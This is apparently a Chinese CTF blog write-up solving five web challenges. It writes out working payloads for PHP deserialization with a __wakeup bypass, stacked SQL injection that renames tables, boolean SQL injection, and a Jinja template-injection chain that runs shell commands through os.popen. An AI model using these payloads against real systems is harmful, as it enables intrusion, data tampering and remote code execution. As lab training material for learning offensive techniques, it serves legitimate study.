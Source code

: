# Web_php_unserialize

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e4375c3ff6eb4e8198e8de9de847f53f.png)

当通过$_GET['var']传入序列化数据时，会调用unserialize，触发魔术方法__wakeup和__destruct。
__destruct方法使用highlight_file($this->file)输出文件内容，若$file可控，可读取任意文件。
__wakeup 防御：若$file不为index.php，会被重置为index.php。可通过属性个数溢出绕过（序列化时声明的属性个数大于实际个数，__wakeup不会执行）。
正则检测：preg_match('/[oc]:\d+:/i', $var)禁止包含o:或c:开头的序列化字符串。可利用NULL 字节截断让正则匹配失败（PHP 中preg_match遇到 NULL 字节会提前终止匹配）。

构造：/index.php?var=?TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/27c8d76911c54316a110f353f206d56d.png)

# supersqli

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/118110e2f28744de8c9b919eeca0d16e.png)

看一下会输出什么

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/141e99134b8b430fa6911f8dd1cb02fb.png)

’1会报错

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c55eed2a847c4d45aab5434f1aebf674.png)

1';show databases -- #

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/3f7621ce7e9743049a8b214e42a5bfdf.png)

1';show tables -- #

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/a8356bff39624c8d844fd4859ed8e1a1.png)

1';show columns from `1919810931114514` -- #

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/cec7d33363ba49e98921a436cf479600.png)

1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);-- #
1' or 1=1 #

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/54aae3c00e484f55bf760a606699d608.png)

# inget

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c9e546d43c514edcb2729d03a6c9dac6.png)

?id=1' or 1=1 -- #

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/73b03e8937a34570a8e297040ae48adb.png)

# web2

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/a7e3bb1363794de48c9569e00ffed85a.png)

对密文进行 str_rot13 还原：由于 str_rot13 是双向变换，再次应用即可还原。
反转字符串：逆转加密时最后一步的 strrev。
Base64 解码：解开加密时的 base64_encode。
字符 ord 减 1：逆转加密时每个字符 ord+1 的操作。
再次反转字符串：逆转加密时第一步的 strrev。

```csharp
import base64
def python_decode(string):
    zimu = "abcdefghijklmnopqrstuvwxyz" 
    rot_13 ="" 
    for i in string: 
        if i.isdigit():
            rot_13 += i
        else:
            try:
                rot_13 += zimu[zimu.index(i)-13] 
            except:
                rot_13 += zimu[zimu.index(i.lower())-13].upper()
    fz = rot_13[::-1]
    base = base64.b64decode(fz)
    base = [chr(ord(i)-1) for i in base]
    fz = base[::-1]
    print "".join(fz)

python_decode("a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws")
```

结果：flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}

# Web_python_template_injection

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/fda8c4dd860945379ec92c9ee205445b.png)

输入/{{7+7}}，测试存在模板注入

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d0fe1f63d93645ff9b9a473fc5383280.png)

/{{''.__class__}}

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/3ab58f114dff42e89d5789d85591caa9.png)

/{{''.__class__.__mro__}}

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/801ae0c58ffe403ab69aeaa16d4ff1f5.png)

/{{''.__class__.__base__.__base__.__subclasses__()}}

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0c3814abd08143daa400958d7a852abe.png)

/{{''.__class__.__base__.__base__.__subclasses__()[168]}}

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/6a72380a709a4197b05847d788aeed93.png)

/{{''.__class__.__base__.__base__.__subclasses__()[145].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls").read()')}}

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d964de1a14b5400bad12ac19d2ac874f.png)

/{{''.__class__.__base__.__base__.__subclasses__()[145].__init__.__globals__.__builtins__['eval']('__import__("os").popen("cat fl4g").read()')}}

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/fd402ab27ba64cd2a602560a91724ee0.png)
